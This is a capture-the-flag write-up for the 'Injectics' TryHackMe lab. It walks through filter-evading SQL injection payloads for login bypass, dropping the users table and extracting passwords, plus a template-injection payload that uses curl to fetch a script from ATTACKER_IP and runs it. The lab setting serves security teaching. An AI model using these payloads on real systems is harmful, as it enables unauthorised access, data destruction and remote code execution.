 # Injectics

Main idea of this room is around SQL injection during UPDATE statements. In particular the `edit_leaderboard.php` endpoint allows us to `DROP` the users table. From an html comment you should be aware (see `mail.log` file) that the users table will be repopulated with default credentials.

`login.php` is vulnerable to sql injection but is heavily filtered. We can bypass restrictions with the following payload:

```
username=foo'||1--+&password=foo&function=login
```

This will give access to the dashboard as user **dev** (the first one in the users table). We can also log in as admin but we won't be able to get the flag this way.

```
username=foo'||1+LIMIT+0,1--+&password=foo&function=login     ---> login as dev
username=foo'||1+LIMIT+1,1--+&password=foo&function=login     ---> login as admin
```

In order to get the first flag we have to use the admin login endpoint, but that is not vulnerable to SQLi.

Once we have access to the admin dashboard, either as user dev or admin, we can edit the leaderboard and from there we can drop the users table:

```
POST /edit_leaderboard.php

rank=1&country=USA&gold=1&silver=2&bronze=3;drop+table+users;--+
```

will execute a query similar to the following:

```sql
UPDATE leaderboard set gold=1, silver=2, bronze=3; drop table users;-- everything else ignored
```

An alternative could be setting `password = 'foo'` with something like this (but I got it only after completing the room and seeing that the `OR` keyword is deleted from queries)

```
POST /edit_leaderboard.php

rank=1&country=USA&gold=1&silver=2&bronze=3; UPDATE users set passwoORrd='foo';--
```

After a couple of minutes the users table will be re-populated with default credentials that we can now use to login as `superadmin@injectics.thm`.

Editing our profile ad setting name to `{{7*7}}`, we see that we have a template injection. Some functions like `system` or `shell_exec` are disabled but we can use `popen`:

```
fname={{['curl+ATTACKER_IP:8000/s+-o+/tmp/s','r']|sort('popen')|join}}
fname={{['sh+/tmp/s','r']|sort('popen')|join}}
```

### extracting initial passwords one char at a time

Only after getting access to the source code I was able to understand that some keywords are deleted: in particular `SELECT` and `OR`. I was not aware of that because my initial payload did not involve the `OR` keyword.

Keeping this in mind we also have a cool way to extract the initial password from the users table (three characters at a time, or up to 18 characters if using all six ranks available):

```
rank=1&country=usa&gold=ascii(mid((selSELECTect+group_concat(passwoORrd)+from+users),1,1))&silver=ascii(mid((selSELECTect+group_concat(passwoORrd)+from+users),2,1))&bronze=ascii(mid((selSELECTect+group_concat(passwoORrd)+from+users),3,1))
```

The capital `SELECT` and `OR` will be deleted so we obtain a query like this:

```sql
UPDATE leaderbord set gold   = ascii(mid((select+group_concat(password)+from+users),1,1)),
                      silver = ascii(mid((select+group_concat(password)+from+users),2,1)),
                      bronze = ascii(mid((select+group_concat(password)+from+users),3,1)) 
where rank=1;
```

Or 18 characters at a time with six calls to `edit_leaderboard.php`:

<figure><img src="../../.gitbook/assets/image (26).png" alt=""><figcaption></figcaption></figure>

```
MariaDB [(none)]> select char(50,51,52,50,115,100,115,102,119,102,50,119,114,50,114,102,44,51);
+-----------------------------------------------------------------------+
| char(50,51,52,50,115,100,115,102,119,102,50,119,114,50,114,102,44,51) |
+-----------------------------------------------------------------------+
| 2342sdsfwf2wr2rf,3                                                    |
+-----------------------------------------------------------------------+
```

Password for superadmin is left as an exercise to the reader. With some patience we can recover the initial passwords and login without having to drop the users table, or changing the current password, thus being more stealthy!

### extracting initial password via union select

Again, having source code and playing a little bit locally we can also extract initial password from the original login:

```
POST /functions.php HTTP/1.1

username=a'+ununionion+all+select+1,F.1,F.4,4,5,6+FROM+(SELECT+1,2,3,4,5,6+UunionNION+select+*+FROM+users)F+limit+1,1--+&password=foo&function=login
```

This becomes

```sql
'a' union all select 1,F.1,F.4,4,5,6 FROM (SELECT 1,2,3,4,5,6 UNION select * FROM users)F limit 1,1-- 
```

See https://book.hacktricks.xyz/pentesting-web/sql-injection#bypass-column-names-restriction for an explanation of this query.

Go here https://tryhackme.com/r/room/injectics to play the room!

